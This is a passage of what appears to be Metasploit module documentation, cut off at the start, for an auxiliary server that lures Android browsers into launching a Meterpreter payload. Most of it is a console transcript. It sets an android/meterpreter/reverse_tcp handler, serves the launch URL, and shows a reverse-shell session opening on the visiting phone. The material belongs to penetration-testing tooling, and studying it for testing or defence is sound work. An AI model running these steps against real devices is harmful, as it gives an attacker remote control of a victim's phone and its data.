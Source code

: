 ```
4. Do: ```run```. At this point, the web server should be up.
5. On your Android device, open the native web browser, and go the URL generated by the auxiliary
   module.
6. The Android handler should get a session like the following demo:

```
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD android/meterpreter/reverse_tcp
PAYLOAD => android/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.199
LHOST => 192.168.1.199
msf exploit(handler) > set EXITONSESSION false
EXITONSESSION => false
msf exploit(handler) > run -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.199:4444 
msf exploit(handler) > [*] Starting the payload handler...

msf exploit(handler) > use auxiliary/server/android_browsable_msf_launch
msf auxiliary(android_browsable_msf_launch) > set URIPATH /test
URIPATH => /test
msf auxiliary(android_browsable_msf_launch) > run

[*] Using URL: http://0.0.0.0:8080/test
[*] Local IP: http://192.168.1.199:8080/test
[*] Server started.
[*] Sending HTML...
[*] Sending stage (62432 bytes) to 192.168.1.207
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.207:47523) at 2016-03-08 15:09:25 -0600
```

